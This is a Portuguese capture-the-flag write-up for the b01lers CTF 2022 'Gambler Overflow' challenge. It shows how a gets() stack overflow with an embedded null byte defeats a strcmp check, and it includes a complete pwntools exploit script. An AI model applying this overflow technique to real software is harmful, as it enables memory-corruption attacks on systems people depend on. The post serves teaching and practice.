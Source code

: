 ```yaml
---
layout: post
title: Gambler Overflow - [b01lers CTF]
date: 2022-04-27 22:26
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

Existe um óbvio buffer overflow que permite sobreescrever valores. Mas ao invés de uma simples execução de shellcode ou redirecionamento de código, havia um caminho mais simples de se percorrer.

Caso queira acompanhar, o binário do challenge está [aqui](https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/b01lers_CTF_2022/gambler_overflow). E o link com as informações do evento [aqui](https://ctftime.org/event/1583).

O programa tem uma simples funcionalidade: pede uma string de 4 caracteres e a compara com uma outra string gerada aleatoriamente. Caso se consiga acertar a string aleatória, ganha-se 10 moedas, caso n, perde-se 10 moedas. No ínicio da execução é avisado de que existe um belo prêmio quando acumularmos 1000 moedas. A primeira coisa que chama a atenção é que, quando inserimos mais de 8 caracteres, é possível sobreescrever o valor da **Correct Word**:

```
Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)
Your current balance: 100
Guess me a string of length 4 with lowercase letters: aaaa
Your guess: aaaa
Correct word: pmbp
Bummer, you lost. -10 coins.
Your current balance: 90
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
Your current balance: 80
Guess me a string of length 4 with lowercase letters: 
```

Essa tese é confirmada ao se analisar o pseudo código gerado pelo Ghidra da função **casino**, responsável por maior parte da lógica do programa. Renomeei as variáveis que achei interessantes e deixei o resto do jeito que o Ghidra quis:

<script src="https://gist.github.com/brerodrigues/dfb4567a3b433ad61586db8da2525e6f.js"></script>

Pode se observar na linha 23 que o programa utiliza a função **gets** para obter o input do usuário, como **gets** não se importa com o tamanho do input, possibilita que seja armazenado em **user_input** um valor maior que os 8 chars previamente reservados, nos deixando sobreescrever os valores armazenados abaixo de **user_input** na stack. E logo abaixo de **user_input** na stack está, convenientemente, **correct_guess** com o valor pseudoaleatório gerado no looping iniciado na linha **36**.

Há um pequeno pulo do gato para ser bem sucedido ao explorar esse overflow. De que adianta poder trocar o valor de **correct_guess** se na hora da comparação os valores vão ser diferentes? Afinal, é necesário inserir um certo número de caracteres antes de se chegar na área de memória onde está **correct_guess** e na hora da comparação os dois valores não vão bater:

```
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
```

Todas as proteções populares estão habilitadas no binário (NX, PIE, Canaries), o que dificulta alguns tipos de ataque. Na linha **60** existe uma verificação que checka se o valor de **balance** é maior que **1000**. Caso seja, chama uma função que imprime a flag na tela. Esse é o grande prêmio anunciado no ínicio do programa. Já que controlamos o valor de **correct_guess**, qual seria a melhor forma de explorar esse comportamento?

Aqui mora o momento que o gato dá seu pequeno pulo: na linha **47** é chamada a função **strcmp** para comparar **user_input** e **correct_guess**. **strcmp** foi feita para comparar duas strings e considera uma string uma sequência de caracteres finalizada por um NULL byte. Consegue entender onde quero chegar?

**gets**, diferente de **strcmp**, não se importa em consumir NULL bytes, ela vai lendo até encontrar um EOF (end of file, pode ser enviado com CTRL+D no terminal) ou um new line (um simples Enter). Então é possível inserir via **gets** uma string que é formada por: 7 caracteres + NULL byte + 7 caracteres. Os primeiros 7 caracteres serão utilizados em **strcmp** como nosso input (ela vai desconsiderar o NULL byte e tudo que vier depois), e o segundo conjunto será o novo valor de **correct_guess**.

No meu exploit criei a string venenosa **overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)** e criei um loop com while que pega o output do programa, verifica se esse output tem o valor **"FLAG** e, caso não tenha, continua enviando a string venenosa. Isso é necessário porque a cada interação que enviamos a string ganhamos 10 moedas e a flag só será impressa na tela quando obtivermos 1000 moedas. Se deseja assistir a todos os momentos que essas moedas são ganhas basta descomentar a linha **#print(output)** dentro do loop.

```python
#!/usr/bin/env python

from pwn import *

get_flag = False
chall_name = 'gambler_overflow'

def run_with_gdb(p):
    gdb.attach(p,'''
    b *main
    b *casino+280''')

def run_exploit(p, debug):
    if debug:
        run_with_gdb(p)
        

    overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)

    while (True):
        output = p.recv(timeout=2).decode()
        #print(output)
        if "FLAG" in output:
            print(output)
        else:
            p.sendline(overflow)
            
    p.close()

if get_flag:
    p = remote('178.62.32.210', '30138')
    run_exploit(p, False)
else:
    process_full_path = './' + chall_name
    p = process(process_full_path)
    run_exploit(p, False)
```

ao rodar, rapidamente chegamos ao resultado que nessa visualização imprimiu meu arquivo flag.txt local criado para fins de teste:

```
[+] Starting local process './gambler_overflow': pid 7322
Your guess: AAAAAAA
Correct word: AAAAAAA
You won (wow)! +10 coins.
FLAG{isso_eh_a_flag_txt}

See you next time!
```
